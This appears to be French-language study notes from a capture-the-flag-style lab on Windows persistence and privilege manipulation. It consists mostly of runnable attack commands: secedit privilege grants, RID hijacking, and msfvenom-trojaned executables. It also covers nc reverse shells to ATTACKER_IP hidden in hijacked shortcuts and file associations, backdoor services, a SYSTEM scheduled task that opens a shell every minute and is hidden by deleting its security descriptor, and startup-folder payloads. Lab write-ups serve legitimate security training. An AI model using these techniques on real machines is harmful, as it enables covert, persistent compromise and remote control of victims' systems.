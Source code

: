 Accorder des privilege d'administrateur a un utilissateur non privilegie est de l'integrer au groupe Administrateur > 
```
net localgroup Administrators thmuser0 /add 
```

# Privilèges spéciaux et descripteurs de sécurité
## attribuer les privilege de un utilisateur 
Nous pouvons attribuer les privileges a n'importe quel utilisateur , indépendamment de son groupe d'appartenance . Nous utiliserons la commande "secedit" suivante :
nous allons exporter la configuration actuelle vers un fichier temporaire :

```
secedit /export /cfg config.inf
```

Nous ajoutons notre utilisateur  au ligne des privileges qui le concerne : https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants

Nous convertissons finalement le fichier .inf en un fichier .sdb  qui est ensuite utilise pour recharger la configuration dans le système

```
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf

```

Maintenant l'utilisateur a des privileges equivalents a ceux de n'importe quel opérateur de sauvegarde. 
Pour ouvrir la fenetre de configuration du descripteur de securite de WinRM, nous pouvons utiliser la commande suivante dans Powershell

```
set-PSSessionConfiguration -Name Microsoft.PowerShell -showsecurityDescriptorUI
```

# RID Hijacking

Une autre Methode pour obtenir des privileges administratif sans etre administrateur consiste a modifier certaines valeur de registre pour faire croire au systeme d'exploitation que vous etes administrateur .
Lors de la création d'un utilisateur, un identifiant appelé **ID relatif (RID)** lui est attribué. Ce RID est simplement un identifiant numérique représentant l'utilisateur sur l'ensemble du système.
Lorsqu'un utilisateur se connecte, le processus LSASS récupère son RID dans la ruche du registre SAM et crée un jeton d'accès associé à ce RID. En falsifiant la valeur du registre, nous pouvons forcer Windows à attribuer un jeton d'accès Administrateur à un utilisateur sans privilèges en associant le même RID aux deux comptes.
Pour trouver les RID attribués à n’importe quel utilisateur, vous pouvez utiliser la commande suivante :

```
wmic useraccount get name,sid
```

Pour exécuter Regedit en tant que SYSTEM, nous utiliserons psexec

```
PsExec64.exe -i -s regedit
```

# Fichier de porte dérobée
## fichiers exécutables
Si vous trouvez un exécutable sur le bureau, il y a de fortes chances que l'utilisateur l'utilise fréquemment. Imaginez que nous trouvions un raccourci vers PuTTY.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

## Fichiers de raccourcis
Avant de pirater la cible du raccourci, créons un script PowerShell simple dans `C:\Windows\System32`ou tout autre emplacement insaisissable. Le script exécutera un shell inversé, puis exécutera calc.exe depuis l'emplacement d'origine dans les propriétés du raccourci :

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Enfin, nous allons modifier le raccourci pour qu'il pointe vers notre script.
```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

Commençons par un écouteur nc pour recevoir notre reverse shell sur la machine de notre attaquant :

```
nc -lvp 4445
```

## Hijacking File Associations
En plus de persister via des exécutables ou des raccourcis, nous pouvons détourner n'importe quelle association de fichiers pour forcer le système d'exploitation à exécuter un shell chaque fois que l'utilisateur ouvre un type de fichier spécifique.
Les associations de fichiers par défaut du système d'exploitation sont conservées dans le registre, où une clé est stockée pour chaque type de fichier `HKLM\Software\Classes\`. Imaginons que nous souhaitions vérifier quel programme ouvre les fichiers .txt ; il suffit de rechercher la `.txt`sous-clé et de trouver l' **identifiant programmatique (ProgID)**  qui lui est associé.

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

# Abus de services 
Les services Windows offrent un excellent moyen d'établir la persistance , car ils peuvent être configurés pour s'exécuter en arrière-plan dès le démarrage de la machine victime.

 ## Service comme porte dérobée
 Nous pouvons créer et démarrer un service nommé « THMservice » en utilisant les commandes suivantes :

  ```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```
**Remarque :** il doit y avoir un espace après chaque signe égal pour que la commande fonctionne.

nous pouvons également créer un shell inversé avec msfvenom et l'associer au service créé. Notez cependant que les exécutables de service sont uniques, car ils doivent implémenter un protocole particulier pour être gérés par le système.

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

Vous pouvez ensuite copier l'exécutable sur votre système cible, par exemple `C:\Windows`et pointer le binPath du service vers celui-ci :

```shell-session
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```


## Modification des services existants

Il peut être judicieux de réutiliser un service existant plutôt que d'en créer un pour éviter toute détection. En général, tout service désactivé est un bon candidat, car il peut être modifié sans que l'utilisateur ne s'en aperçoive.
Vous pouvez obtenir une liste des services disponibles en utilisant la commande suivante :

```
sc.exe query state=all
```

```
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

# Abuser des taches planifies 
**La méthode la plus courante pour planifier des tâches est d'utiliser le planificateur de tâches Windows** intégré.
Créons une tâche qui exécute un reverse shell toutes les minutes

```
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
```

Pour vérifier si notre tâche a été créée avec succès, nous pouvons utiliser la commande suivante :

```
schtasks /query /tn thm-taskbackdoor
```

Notre tâche devrait être opérationnelle maintenant, mais si l'utilisateur compromis tente de lister ses tâches planifiées, notre porte dérobée sera visible. Pour masquer davantage notre tâche planifiée, nous pouvons la rendre invisible à tous les utilisateurs du système en supprimant son **descripteur de sécurité (SD)** .
Les descripteurs de sécurité de toutes les tâches planifiées sont stockés dans `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`.

# Persistance declenchee par la connexion

## Dossier de demarrage 
Chaque utilisateur dispose d'un dossier dans `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```
